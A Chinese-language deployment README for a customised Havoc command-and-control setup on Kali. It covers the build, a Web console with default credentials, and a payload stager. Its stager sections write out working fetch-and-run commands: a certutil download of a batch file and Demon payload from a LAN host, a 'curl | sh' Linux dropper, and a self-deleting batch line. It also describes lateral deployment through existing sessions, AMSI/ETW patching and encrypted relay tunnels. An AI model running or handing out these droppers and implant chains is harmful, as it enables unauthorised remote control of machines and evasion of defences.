

# Havoc 部署说明（Kali / 本地部署）

本目录完成了 Havoc Framework 的源码下载、编译与运行验证。
上游项目：<https://github.com/HavocFramework/Havoc>（当前部署版本 **0.7 / Bites The Dust**）

> **2026-11-11 变更：Qt 客户端已移除，只保留 Teamserver + Web 控制台。**
> - `havoc-src/client/Modules` 保留（Web 端 77 条模块命令的 Python 脚本 + BOF `.o`），**不要删**；
> - `client/src`、`client/data`、`client/external`、`client/Build`、`client/Havoc`、CMake 工程已删除；
> - `toolchain/qt5` 已删除（Qt5 deb 仍在 `toolchain/debs/`，需要时可重新解包）；
> - 命令表来源固化到 `webui/reference/`；完整备份在 `backup/qt-client-20261111.tar.gz`。
> - **本文档第 3、5、11 节及涉及客户端编译、启动、中文界面、截图对照的内容属于历史记录，已不再适用。**

---

## 1. 目录结构

```
/home/kali/桌面/Havoc/
├── havoc-src/                 # 源码仓库（git clone；Qt 客户端已移除）
│   ├── havoc                  # 编译产物：Teamserver（Go，19 MB）
│   ├── client/Modules/        # Python 模块 + BOF 对象文件（Web 端复用，勿删）
│   ├── profiles/havoc.yaotl   # 默认配置（监听 0.0.0.0:40056）
│   └── data/                  # 运行数据、证书、数据库、交叉编译器包装器
├── toolchain/                 # 本地工具链（未写入系统，全部在用户空间）
│   ├── go/                    # Go 1.27.3
│   ├── venv/bin/cmake         # CMake 3.31.6（通过 pip 安装）
│   └── debs/                  # Qt5 deb 包（已不再使用，仅作恢复来源）
├── webui/                     # Web 控制台（独立进程，唯一的操作界面，:8081）
│   ├── gateway.py             # aiohttp 网关：登录/ REST / WS / 静态页
│   ├── havoc_client.py        # teamserver WSS 客户端（自动重连）
│   ├── state.py / commands.py # 协议解码与命令构造
│   ├── reference/             # 命令表快照（Commands.cc / client-config.toml）
│   └── static/                # 前端（深色主题）
├── stager/stager_server.py    # 一键上线暂存服务（/swt、/slt、/payloads/*）
├── start-all.sh               # 一键启动 Teamserver + Web 控制台 + 暂存服务（后台）
├── stop-all.sh                # 一键停止以上全部服务
├── start-stager.sh            # 单独启动暂存服务（--detach 后台运行）
├── stop-stager.sh             # 单独停止暂存服务
├── payloads-out/              # 暂存服务投递的载荷目录（含 demon.x64.exe）
├── start-teamserver.sh        # 单独启动 Teamserver（前台）
├── backup/                    # 移除 Qt 客户端前的完整备份
└── logs/                      # 构建与运行日志、截图
```

## 2. 启动

### 2.1 一键启动（推荐）

```bash
cd /home/kali/桌面/Havoc
./start-all.sh          # 后台启动 Teamserver + Web 控制台 + 暂存服务
./start-all.sh --status # 查看三个服务的运行状态
./stop-all.sh           # 一起停止（先停 Web/暂存，再停 Teamserver）
```

脚本特性：

- **幂等**：已在运行的服务直接复用（包括手工启动的 teamserver，会按 `havoc-src/havoc` 的
  进程身份识别并接管），不会重复拉起或抢占端口；
- **就绪检查**：teamserver 等端口 `40056` 真正监听、webui 等 `/api/health` 通过后才算启动成功；
- **日志**：`logs/teamserver.log`（超过 20 MB 自动轮转）、`logs/webui-console.log`、`logs/stager.log`；
- **参数**：`--no-webui` / `--no-stager` / `--no-teamserver` 可跳过对应服务；
  `--status` 只查看状态（全部运行返回 0，否则返回 1）；
- **停止**：`stop-all.sh` 支持 `--keep-webui` / `--keep-stager` / `--keep-teamserver` 只停其中一部分；
  只按 `havoc-src/havoc` 进程身份和 pid 文件停止，不会误杀其它目录的 havoc 或无关进程；
- 可用环境变量覆盖：`PROFILE`、`TEAMSERVER_PORT`、`STAGER_PORT`。

### 2.2 分别启动（调试用）

```bash
# 终端 1：启动 Teamserver（前台运行，Ctrl+C 停止）
cd /home/kali/桌面/Havoc
./start-teamserver.sh

# 终端 2：单独启动 Web 控制台（唯一的操作界面，后台运行）
cd /home/kali/桌面/Havoc/webui
./start-webui.sh        # http://<本机IP>:8081/  默认 admin / havoc1234
```

> Qt 客户端已移除（见文首变更说明），`havoc-src/profiles/havoc.yaotl` 现在只保留网关使用的
> 操作员 `Neo`。浏览器端账号见 `webui/config.json`；**正式使用前请同时修改两处口令**。

## 3. 首次使用流程

1. 浏览器登录 Web 控制台，`视图 → 监听器 → 添加` 新建 HTTP/HTTPS 监听器并保存。
2. `攻击 → 载荷生成`，选择 Agent（Demon）、Listener、Arch（x64/x86）、Format（Windows Exe / Shellcode / DLL…），点击生成。
3. 生成的载荷位于 `havoc-src/data/`（构建日志显示在载荷对话框的构建控制台）。

## 4. 运行验证结果

- Teamserver 正常监听 `wss://0.0.0.0:40056`，自签名证书自动生成于 `data/server.cert|key`。
- 网关以 `Neo` 连接并通过认证，服务端日志出现 `[GOOD] User <Neo> Authenticated`。
- 截图：`logs/havoc-connected.png`（历史：已移除的 Qt 客户端主界面）、`logs/payload-dialog.png`（载荷生成向导）。
- Demon 载荷交叉编译链路已单独验证：用与 Teamserver 完全一致的编译命令可产出 98 KB 的 `PE32+ x86-64` 可执行文件。

## 5. 与官方安装方式的差异（重要）

本机 `sudo` 需要密码，因此**没有向系统安装任何软件包**，全部采用用户空间方案；同时针对 Kali 的较新工具链做了兼容处理：

1. **Go / CMake**：官方通过 `apt install golang-go cmake`，这里使用 `toolchain/go`（官方 tarball）与 `toolchain/venv`（pip 版 CMake）。
2. **Qt5 开发包**：`qtbase5-dev`、`qtbase5-dev-tools`、`qt5-qmake`、`libqt5websockets5(-dev)`、`libqt5opengl5(-dev)`
   通过 `apt-get download` + `dpkg-deb -x` 解包到 `toolchain/qt5/usr`，编译时用 `CMAKE_PREFIX_PATH` 指向该前缀；
   运行期 `libQt5WebSockets` 只存在于该前缀，因此 `start-client.sh` 会设置 `LD_LIBRARY_PATH`
   （客户端二进制本身也带了 RUNPATH，可直接运行）。
3. **交叉编译器**：未下载 musl.cc 的 mingw 包（约 200 MB），而是把 `profiles/havoc.yaotl` 中的
   `data/x86_64-w64-mingw32-cross/bin/x86_64-w64-mingw32-gcc` 做成**包装脚本**，转发到系统的
   `/usr/bin/x86_64-w64-mingw32-gcc`（i686 同理），并追加：
   `-std=gnu17 -Wno-error=implicit-function-declaration -Wno-error=incompatible-pointer-types -Wno-error=int-conversion`
   原因：GCC 14+ 把这些在 Havoc 源码中原本只是警告的问题升级成了 error，不加这些参数会编译失败。
4. **Modules 仓库**：GitHub 直连不稳定，通过镜像 `ghfast.top` 克隆到 `client/Modules`。
5. **Go 模块代理**：`proxy.golang.org` 不可达，构建时使用 `GOPROXY=https://goproxy.cn,direct`。

## 6. 重新构建

```bash
# 方式一（推荐）：make 目标，已适配本机环境（不调用 sudo、跳过 setcap）
cd /home/kali/桌面/Havoc/havoc-src
PATH=/home/kali/桌面/Havoc/toolchain/go/bin:$PATH \
GOCACHE=/home/kali/桌面/Havoc/toolchain/gocache \
GOPROXY=https://goproxy.cn,direct \
make ts-build

# 方式二：直接调 go
cd /home/kali/桌面/Havoc/havoc-src/teamserver
PATH=/home/kali/桌面/Havoc/toolchain/go/bin:$PATH \
GOCACHE=/home/kali/桌面/Havoc/toolchain/gocache \
GOPROXY=https://goproxy.cn,direct \
go build -ldflags="-s -w -X cmd.VersionCommit=$(git rev-parse HEAD)" -o ../havoc main.go

# Qt 客户端已移除，不再有客户端构建步骤。
# 若需要恢复 Qt5 前缀（仅为历史备份/重新编译旧客户端）：
#   mkdir -p toolchain/qt5/usr && for d in toolchain/debs/*.deb; do dpkg-deb -x "$d" toolchain/qt5/usr; done
```

> `make ts-build` 只在 `data/*-w64-mingw32-cross/bin` 交叉编译器缺失时才调用上游
> `teamserver/Install.sh`（该脚本需要 sudo，且带 `dir/` 路径 typo，会无条件 `apt install`）；
> setcap 用 `sudo -n` 尝试，失败则跳过——teamserver 默认 40056 端口不需要 `cap_net_bind_service`。

## 7. 停止 / 清理

```bash
# 停止进程（stop-all.sh 会按进程身份停止，不会误杀其它 havoc）
cd /home/kali/桌面/Havoc && ./stop-all.sh

# 清理 Teamserver 构建缓存与数据库（保留源码与工具链）
cd /home/kali/桌面/Havoc/havoc-src && make ts-cleanup
```

## 8. 注意事项

- Teamserver 默认监听 `0.0.0.0:40056`，处于公网/办公网时请修改 `profiles/havoc.yaotl` 的 `Host`/`Port` 并更换默认口令，或用防火墙限制来源。
- Havoc 仅应用于已获得明确授权的安全测试。

---

## 9. 中文本地化（二开）

客户端界面已从英文改为中文（源码级修改，非 Qt .ts 翻译包，因此切换语言需重新编译）。

### 9.1 已翻译

| 位置 | 示例 |
|------|------|
| 主菜单 | 视图 / 攻击 / 脚本 / 帮助，以及全部菜单项 |
| 会话表格 | 外部地址、内部地址、用户、计算机、系统、进程、最后心跳、状态 |
| 底部 Dock | 团队聊天、监听器、事件查看器、团队服务器、战利品、扩展 |
| 连接对话框 | 名称/主机/端口/用户/密码、新建配置、连接、各类校验提示 |
| 载荷生成窗口 | 选项、监听器、架构、格式、配置项、值、构建控制台、生成，以及全部配置项名称 |
| 监听器 | 表格列头、添加/删除/编辑、创建/编辑监听器窗口、校验提示 |
| 载荷/监听器错误提示 | 全部消息框 |
| 其它 | 文件浏览器、进程列表、战利品、脚本管理、扩展商店、关于窗口、事件查看器上下线提示 |

### 9.2 刻意保留英文的部分

- **协议/枚举值**：`Demon`、`x64/x86`、`Windows Exe/Dll/Shellcode`、`Https/Http/Smb/External`、`round-robin/random`、`Offline` 等。
  这些值会随消息发给 Teamserver 参与判断，翻译会导致功能失效。
- **右键上下文菜单**：已中文化（会话列表 / 拓扑图：交互、资源管理器、进程列表、文件浏览器、标记存活/死亡、颜色标记八色、导出、复制 ID）。
  实现方式：`QAction::setData()` 保留原始英文动作标识，显示文本换成中文，
  分发处改用 `ActionKey(action)`（优先读 data，回退 text）比较，因此既不破坏点击逻辑，也不影响协议字段。
- **配置项的 JSON 键名**：界面上显示中文（如「休眠时间」），但内部通过 `Qt::UserRole` 保存原始英文键名，
  `GetConfigAsJson()` 读取键名时优先取 UserRole，保证下发的 Demon 配置仍然正确。

### 9.3 涉及文件（19 个，`git diff --stat` 可查）

`client/src/UserInterface/` 下的 `HavocUi.cc`、`Dialogs/{About,Connect,Listener,Payload}.cc`、
`Widgets/{Chat,DemonInteracted,FileBrowser,ListenersTable,LootWidget,ProcessList,PythonScript,ScriptManager,SessionTable,Store,Teamserver,TeamserverTabSession}.cc`，
以及 `client/src/Havoc/{Packager,Connector}.cc`。

### 9.4 重新编译

```bash
cd /home/kali/桌面/Havoc/havoc-src/client
/home/kali/桌面/Havoc/toolchain/venv/bin/cmake --build Build -- -j8
```

### 9.5 还原英文版

```bash
cd /home/kali/桌面/Havoc/havoc-src
git checkout -- client
cd client && /home/kali/桌面/Havoc/toolchain/venv/bin/cmake --build Build -- -j8
```

---

## 10. UI 风格（参考 hexhub）

客户端主题由 `client/data/stylesheets/*.qss`（编译进 Qt 资源）+ `client/src/Util/ColorText.cpp` 的调色板共同决定，
已从原版 Dracula（紫罗兰/深灰蓝）改为 hexhub 风格的**中性深色 + 蓝色强调 + 扁平圆角**：

| 令牌 | 值 | 用途 |
|------|-----|------|
| bg | `#1a1b1d` | 窗口/表格背景 |
| bg-deep | `#161719` | 菜单栏、状态栏、只读输入框 |
| panel | `#202224` | 表头、菜单弹层、分组框 |
| elev | `#26282b` | 按钮、悬停底 |
| border | `#2f3235` / `#3b3f43` | 分隔线、控件描边 |
| text | `#e7e8e9` / `#a6abb0` / `#71777d` | 主文字 / 次要 / 弱化 |
| accent | `#4c9aff`（hover `#6cadff`） | 主按钮、选中标签下划线、焦点边框 |
| 语义色 | 绿 `#4ac27a` 橙 `#e0a340` 红 `#e05d5d` 紫 `#b07cff` 青 `#37c2b1` | 日志/状态 |

具体调整：

- **圆角**：按钮/输入框/菜单/表格 6px，列表项 4px；滚动条改为 10px 细条、无箭头。
- **标签页**：透明底 + 选中项蓝色 2px 下划线（对齐 hexhub 的 tab 样式）。
- **按钮**：默认扁平次要按钮（`#26282b` 底 + 描边），主操作（连接、生成、保存）为蓝底白字。
- **表格**：表头 `#202224` 底、`#a6abb0` 字、1px 分隔线，行选中 `#34383c`。
- **菜单**：弹层 `#202224` + 6px 圆角 + 悬停高亮。
- **会话标记色**（右键 Color 菜单）改为低饱和深色，避免高亮刺眼。

改色只需编辑两处：
1. `client/data/stylesheets/Havoc.qss` 顶部注释里的设计令牌（各 qss 同上）；
2. `client/src/Util/ColorText.cpp` 的 `Colors::Hex` 调色板（控制日志/事件颜色）。

改完重新编译即可（qss 在 qrc 中，AUTORCC 会自动重打包）：

```bash
cd /home/kali/桌面/Havoc/havoc-src/client
/home/kali/桌面/Havoc/toolchain/venv/bin/cmake --build Build -- -j8
```

---

## 11. 一键上线（Windows，已可用）

监听器标签页底部「一键上线命令」现在是一个完整投递面板：命令、暂存服务状态、启动按钮。

### 11.1 使用

1. **启动暂存服务**（二选一）：
   - 面板右上「启动服务」（暂存地址指向本机时可用，后台运行，日志 `logs/stager.log`）；
   - 终端 `./start-stager.sh --detach`。
2. `视图 → 监听器` → 点「一键上线命令」展开面板。
3. 「暂存地址」默认 `http://<本机IPv4>:9901`，可改；改动自动保存到 `havoc-src/data/quickdeploy.ini`
   （重开客户端会恢复）。
4. 「服务状态」每 8 秒请求一次 `{BASE}/health`：
   - 绿「● 在线 · demon.x64.exe（97.0 KB）· 已命中 N 次」
   - 红「● 离线 · Connection refused（点「启动服务」或执行 ./start-stager.sh）」
5. 在 Windows 目标上粘贴执行：

```bat
certutil.exe -urlcache -split -f http://192.168.121.132:9901/swt C:\Users\Public\run.bat && C:\Users\Public\run.bat
```

### 11.2 投递链

```
Windows cmd
 └─ certutil 下载 /swt → C:\Users\Public\run.bat
     └─ run.bat 用 certutil 下载 /payloads/demon.x64.exe → %TEMP%\demonx64<rand>.exe
         └─ start 启动 → Demon 回连 8080（LAN-Test）
             └─ 清理 certutil 缓存并自删除 run.bat
```

- `/swt` 每次请求动态生成（CRLF）；`BASE` 取 `--public-base`，未指定时用请求的 Host 头。
- 载荷默认 `payloads-out/demon.x64.exe`，可用 `--payload` 换名；`/payloads/<文件名>` 只允许载荷目录内的普通文件。
- certutil 下载失败时自动回退 PowerShell `Invoke-WebRequest`。

### 11.3 自删除与「找不到批处理文件」

批处理最后一行是：

```bat
(goto) 2>nul & del /f /q "%~f0"
```

早期版本写作 `del "%~f0"` 后跟 `exit /b 0`，cmd 在删除自身后还要读下一行，于是会打印
**「找不到批处理文件。」**——命令其实已经执行完（载荷已下载并启动），只是这句报错让人误以为失败。
`(goto)` 先结束批处理解析、同一行再删除，就不会再出现该提示。

### 11.4 服务端点

| 路径 | 说明 |
| --- | --- |
| `GET /health` | JSON：版本、地址、载荷名/大小/SHA256、命中次数、最近请求 |
| `GET /swt` | Windows 批处理（动态生成） |
| `GET /slt` | `410`：Havoc 0.7 无 Linux agent，不提供 |
| `GET /payloads/<file>` | 载荷下载（仅 payload 目录内普通文件，禁止穿越） |
| `GET /` | 端点索引 |

### 11.5 Linux

2026-11-10 起新增 **Linux Demon**（`havoc-src/payloads/DemonLinux`，Go 实现），
在 Web 控制台的「载荷生成」里选 **Linux Exe** 即可生成 `demon.x64.elf` / `demon.x86.elf`。

9901 暂存服务同时支持 Linux 一键上线：

```sh
curl -fsSL http://<暂存地址>/slt | sh
```

`/slt` 按 `uname -m` 选择 `payloads-out/demon.x64.elf` / `demon.x86.elf`，
下载后 chmod + setsid/nohup 脱离当前 shell，并删除临时文件。
把 Linux 载荷放进 `payloads-out/`（或 `--linux-payload` 指定）即可；
`/health` 的 `linux_payloads` 会列出可用架构，暂存面板状态显示「Linux x64/x86」。

通过已有 Linux 会话横向投递：

```
shell curl -fsSL http://192.168.121.132:9901/slt | sh
```

本机实测：会话 `64670001` 执行 → `[+] started demon (x64)`，新会话 `1ecd5198` 上线，
原 shell 任务立即结束。连续执行 3 次 → 3 个新会话（`699f5b14`/`60e20065`/`5494dec6`）。

排查「命令执行了但没有新会话」：

| 现象 | 结论 |
| --- | --- |
| `logs/stager.log` 无该主机 `GET /slt` | 目标到 9901 不通 |
| 有 `/slt`、无 `GET /payloads/demon.*.elf` | 目标架构不在 `linux_payloads`（默认 x64/x86） |
| 有载荷下载、无新会话 | 目标到 8080 回连不通（载荷回调地址烘焙为 192.168.121.132:8080） |
| 回显 started 但没注意 | 同主机重名（hostname/IP 相同），新会话进程为 `/tmp/.hx64.*` |

注：早期版本的 `/slt` 在 `setsid` 启动后立即 `rm` 临时文件，存在 execve 前被删除的竞态，
表现为“第一次成功、后续静默失败”；现已改为 Demon 自删除 + 3 秒延时兜底。

### 11.6 实现

- `stager/stager_server.py`：Python 标准库 `ThreadingHTTPServer`，无第三方依赖；只读载荷目录，不执行任何东西。
- `client/include/UserInterface/Widgets/ListenerTable.hpp` + `client/src/UserInterface/Widgets/ListenersTable.cc`：
  新增 `quickDeployStatus`、`buttonQuickDeployCheck/Start`、`QNetworkAccessManager` + 8 秒轮询；
  `QSettings` 持久化到 `data/quickdeploy.ini`；「启动服务」用 `QProcess::startDetached` 跑 `start-stager.sh --detach`。
- `client/data/stylesheets/Havoc.qss`：`#quickDeployStatus` 与禁用态样式。

### 11.7 排障

| 现象 | 处理 |
| --- | --- |
| 状态红「Connection refused」 | 点「启动服务」或 `./start-stager.sh --detach`；`ss -ltn \| grep 9901` |
| 目标 certutil 报 `0x80072efd` | 9901 没监听或地址写错（不是防火墙） |
| 下载成功但无会话 | 看 `logs/stager.log` 是否有 `/payloads/...` 请求；再看 `data/loot/<时间>/teamserver.log` |
| 想换载荷 | 覆盖 `payloads-out/demon.x64.exe`，或 `./start-stager.sh --payload 其它.exe` |
| 端口被占 | `./stop-stager.sh` 后重启 |

---

## 12. 本次验证记录

- `/health` 200；`/swt` 200（CRLF、BASE 正确）；`/payloads/demon.x64.exe` 200 且 SHA256 与源文件一致；
  `/slt` 410；目录穿越 400。
- Windows 192.168.121.1 执行一键命令后，stager 日志出现 `/swt` 与 `/payloads/demon.x64.exe` 请求，
  会话表新增 `demonx64318601812.exe` 等 Demon，客户端控制台出现 `Agent ... authenticated` 行。
- 面板：在线绿字并显示命中次数；停服务后变红并出现「启动服务」；点击后 9901 起来并自动转绿；
  改暂存地址后 `data/quickdeploy.ini` 立即更新。

## 13. 还原

- 还原原版客户端：`git checkout -- client`（见 9.5）；stager 相关文件在 git 仓库外，不受影响。
- 停止暂存服务：`./stop-stager.sh`；删除持久化配置：`rm -f havoc-src/data/quickdeploy.ini`。


---


## 14. Web 控制台（浏览器替代 Qt，已复刻客户端 UI + 核心功能）

`webui/` 是独立进程的浏览器控制台：界面按 Qt 客户端（hexhub 深色主题）复刻，
并实现了聊天、文件管理器（增删改查/上传下载/在线编辑）、进程列表、监听器增删、战利品，以及 **载荷生成、会话图、扩展商店、
Python 脚本/Python 控制台**。不改 Qt 客户端、不动 9901 投递链，可与 Qt 客户端同时在线
（Qt 客户端已移除，网关以 `Neo` 单连接运行；多浏览器共用该连接）。



### 14.1 启动 / 停止

```bash
cd /home/kali/桌面/Havoc/webui
./start-webui.sh     # 后台启动 + 健康检查，日志 logs/webui.log、logs/webui-console.log
./stop-webui.sh
```

- 访问：`http://192.168.121.132:8081/`（Windows 侧同网段可直连）
- Web 账号：`admin` / `havoc1234`（`webui/config.json` 的 `web.user/password`）
- 网关 → teamserver：`teamserver.user`（默认 `Neo`，需在 `profiles/havoc.yaotl` 定义）
- 浏览器 cookie 为 HMAC 签名（12h），网关重启免登录；断线自动重连。

### 14.2 界面与功能

| 模块 | 说明 |
| --- | --- |
| 菜单栏 | 与客户端逐项对齐：`Havoc`（新建客户端/断开连接/退出 + 重连）、`视图`（监听器 / 会话视图▸表格·拓扑图 / 团队聊天 / 战利品 / 事件查看器 / 团队服务器）、`攻击`（载荷生成 / 扩展 / 一键上线）、`脚本`（脚本管理 / 脚本控制台）、`帮助`（关于 / 打开文档 / 打开 API 文档 / GitHub） |
| 会话表 | 客户端同款：10 列等宽、单元格居中、表头 600 + 右边框、ID 红色 `#ff5555`、Windows/Dead 图标；双击控制台；右键文件浏览器/进程列表/标记 Alive-Dead |
| 事件查看器 | 右侧 dock（默认约 30% 宽、可拖拽），时间列 116px、[+]/[-] 标签、掉线红色、自动滚底；原始日志只进团队服务器标签 |
| 全局 chrome | 无底部状态栏（连接信息在菜单栏右侧）、菜单栏 28px、tab 26px（选中 `#202224` + 2px `#4c9aff`）、1px `#2f3235` splitter、全界面 `Noto Sans Mono CJK SC` 12px |
| 团队聊天 | 与 Qt 共用团队聊天广播；`日期 时间 [用户] :: 内容`（自己绿色下划线），底部操作员名 + 输入框 |
| 控制台 | `shell` / `powershell` / `dir` / `cd` / `cat` / `download` / `ps` / `proc` / `sleep` / `screenshot` 等，并可直接运行脚本注册的命令 |
| 文件管理器 | 每会话独立标签，**左侧目录树 + 右侧列表**；新建目录/文件、上传（多选/拖拽）、下载、重命名/移动/复制、删除（目录可递归）、文本在线编辑；Windows/Linux 同一套 UI |
| 进程列表 | **左 PPID 进程树 + 右表**（名称/PID/PPID/会话/架构/用户，当前进程红色）；底部居中刷新；右键结束进程 |
| 监听器 | 名称/模式/监听/外连/状态/加密/连接；原生 HTTP/HTTPS/SMB/External + 8 种加密传输；SMB 只填管道名，External 注册 40056 的 POST 端点；底部 添加/编辑/删除/启动/停止/下载中继/一键上线 |
| 战利品 | AgentID/显示下拉 + 截图表/下载表 + 大图预览；截图落盘、重启后恢复 |
| 扩展商店 | 名称/作者两列 + 右侧详情（标题/作者/描述/链接）+ 底部通栏安装 + 日志 |
| 脚本管理 | 路径表 + 底部居中“加载脚本”，保留源码/命令/日志扩展区 |
| 团队服务器 | teamserver 日志文本视图（Event=16，自动滚底） |
| 控制台 | 客户端 QTextEdit 风格；提示行 `时间 [用户] Demon » 命令`；help 为 Demon Commands 表；底部 `[User/Computer] process/PID Arch` |
| **载荷生成** | 客户端同款 550×660 对话框（Agent/选项组/配置树含 Injection 父子/构建控制台 190px/居中生成）→ Gate Stageless → teamserver 交叉编译 → 实时日志 → 下载 exe/dll/bin |
| **会话图** | 顶部主视图（视图 → 会话视图 → 拓扑图），与 Qt `SessionGraph.cc` 同构：防火墙根 + 左→右树 + 90px 系统图标 + `ID @ 进程\PID`/`[计算机\用户]`；按 PivotParent 渲染，直属绿线、枢轴蓝线、断开红线，点击节点进控制台 |
| **扩展商店** | havoc-store 目录（GitHub/镜像/本地回退），安装 gist 或仓库到 `data/extensions` |
| **脚本 / Python 控制台** | SDK 兼容 Demon/RegisterCommand/BOF，脚本注册命令可在控制台调用；持久 REPL |

截图：`webui/docs/{login,main,console,files,procs,listeners,loot,teamserver,menu,session-menu,add-listener,payload,payload-done,graph,store,scripts,pyconsole}.png`。

### 14.3 载荷生成

- 入口：`攻击 → 生成载荷`；监听器仅列出在线项；格式：Windows Exe/Dll/Shellcode/Service Exe。
- 配置项与 Qt 客户端一致：Sleep/Jitter、间接系统调用、栈欺骗、Sleep 技术/Jmp Gadget、
  Proxy Loading、Amsi/Etw Patch、注入 Alloc/Execute/Spawn64/Spawn32、服务名。
- 实测：x64 Windows Exe 约 60 秒生成，99,328 字节，`file` 识别 PE32+ x86-64；
  产物在 `webui/data/payloads/<id>/`，网关重启后仍可下载。
- 构建日志来自 teamserver 编译器，实时显示；同一时间仅允许一个构建。

### 14.4 会话图

`视图 → 会话视图 → 拓扑图`：与 Qt 客户端 `SessionGraph.cc` 同构——

- TEAMSERVER 根使用防火墙图标；会话节点为 90×90 系统图标，死亡/断开的枢轴灰度化；
- 树从左到右（层级 220px、兄弟 120px），直属会话绿色实线、枢轴蓝色实线、断开的枢轴红色实线，
  箭头方向与客户端一致；
- 节点文字 `ID @ 进程\PID` + `[计算机\用户]`，点击进控制台、右键会话菜单；
- 会话顺序按 teamserver 到达顺序；SMB 枢轴的 `disconnect/reconnect` 会实时更新拓扑；
- 会话较多时在主视图内滚动（可拖动分隔条放大主视图）。

> 注意：若 Qt 客户端长期在线，它可能因错过 `NewSession` 而只显示部分会话；Web 端读取的是
> teamserver 快照（新登录客户端会收到同样的完整列表）。需要两边一致时重启/重新连接 Qt 客户端即可。

### 14.5 扩展商店

- 拉取 `p4p1/havoc-store` 目录（19 个模块）；GitHub 直连失败时自动使用 `store.mirror`
  （默认 `https://ghfast.top/`），再失败回退到本地 `client/Modules`。
- 支持 gist 与 GitHub 仓库安装（tar.gz 安全解压、路径穿越/大小限制），安装到 `webui/data/extensions/`。
- 图形化（havocui）扩展可安装/查看源码，但运行仍需 Qt 客户端（界面有提示）。

### 14.6 Python 脚本 / Python 控制台

- 脚本页列出 `data/extensions` 与内置 Modules，可查看源码、加载注册命令；
  注册表持久化到 `data/python_commands.json`。
- 脚本命令可直接在会话控制台执行，例如 `pyhello`、`bofenv`。
- SDK：`Demon` 属性、`ConsoleWrite`、`Command`、`Shell`、`Sleep`、`Download`、`Screenshot`、
  `InlineExecute`、`InlineExecuteGetOutput`（BOF 回调）、`CommandGetOutput`、`RegisterCommand`。
- Python 控制台为持久 REPL（Enter 运行、Shift+Enter 换行）。
- 实测：`pyhello` → `admin\administrator`；`bofenv` 输出环境变量；`bofenvcb` 回调 `worked=True`。
- 安全：脚本拥有控制面权限，只加载可信脚本；`python.enabled=false` 可关闭；
  SDK 使用 `webui/run/python.token`（0600）内部鉴权。

### 14.7 验收（2026-11-07）

- `cd webui && python3 acceptance.py` → **15/15**（登录/会话/`shell whoami`/`shell net user`/审计/重连/9901）；
- `python3 ui_feature_test.py`（CDP 无头 Chromium）→ **15/15**：聊天、监听器、商店 19 项、
  脚本注册 4 条命令、Python 控制台、会话图 8 节点、载荷表单 14 字段、控制台、右键菜单、
  文件浏览器 118 行、进程列表 394 行；
- 载荷生成、BOF、扩展商店（gist + 仓库）、监听器增删改、截图战利品均已实测；
- **Windows 侧可达性**：经 Demon 执行
  `powershell (Invoke-WebRequest -UseBasicParsing http://192.168.121.132:8081/).StatusCode`
  → `200`；
- Qt 客户端已移除，不再存在「两客户端同时在线」的场景；网关单连接承载所有浏览器。

### 14.8 加密传输监听器（2026-11-09）

监听器页现支持 **TCP / KCP / UDP / WebSocket / DNS / DoH / DoT / OSS** 八种网关侧监听器，
以及 Havoc 原生 HTTP/HTTPS。「加密传输」使用 HTP/1：Vkey HMAC 握手 +
AES-256-GCM 逐记录加密（EncryptSalt 派生密钥）、zlib 压缩、随机填充。

使用链路（不修改 teamserver/Demon）：

1. 创建传输监听器（监听 `0.0.0.0:19001`、外连 `192.168.121.132:19001`、
   上游 `127.0.0.1:18080`）；
2. 选中行「下载中继」→ Windows/amd64，目标上运行
   `relay.exe --listen 127.0.0.1:1080`；
3. 新建 Havoc 原生 HTTP 监听器（`0.0.0.0:18080`），在「载荷代理」里填
   `http / 127.0.0.1 / 1080`；
4. 用该 HTTP 监听器生成 Demon 载荷并运行。Demon 的 HTTP 流量经中继器 →
   加密传输 → 网关 → `18080`，会话正常上线，命令/文件/截图全可用。

实测：Windows 会话 `49f88360` 外部地址 `127.0.0.1`，`shell whoami` → `admin\administrator`。
协议、字段、模式边界与验收脚本见 `webui/docs/TRANSPORTS.md`。

### 14.9 服务端插件监听器（service/custom listener，2026-11-10）

Web 监听器页现已支持 teamserver Service 插件注册的自定义协议：

1. 启动插件（测试用最小实现）：
   `python3 webui/tools/service_listener_demo.py --name Svc-Demo`
   —— 它连接 `wss://127.0.0.1:40056/service-endpoint`，用
   `havoc-src/profiles/havoc.yaotl` 里的 `Service.Password` 认证并注册 `Name/Agent/Items`；
2. Web「监听器 → 添加」的“模式”下拉出现「服务端插件监听器」分组，选中后按
   `Items` 动态生成字段；
3. 创建后 teamserver 向插件下发 `ListenerStart`，插件绑定端口并回执，
   Web 列表显示该监听器（加密列「插件定义」）；
4. 编辑弹窗为只读展示（teamserver 只实现 HTTP 编辑），删除后 Web 列表移除。

验收：`cd webui && python3 service_listener_test.py` → **25/25**。
限制：插件监听器不写 teamserver DB；删除不通知插件；历史事件重放可能留下失效协议
（创建会 502，重新注册插件或重启 teamserver 可恢复）。截图：
`webui/docs/listener-service-modal.png`。

### 14.10 Linux Demon（2026-11-10）

- 源码：`havoc-src/payloads/DemonLinux/`（Go，无第三方依赖，静态编译）；
- 构建：teamserver 内新增 `FILETYPE_LINUX_EXE`（`teamserver/pkg/common/builder/linux.go`），
  复制源码到临时目录、生成 `config_gen.go`（监听器/UA/Header/URI、sleep/jitter、
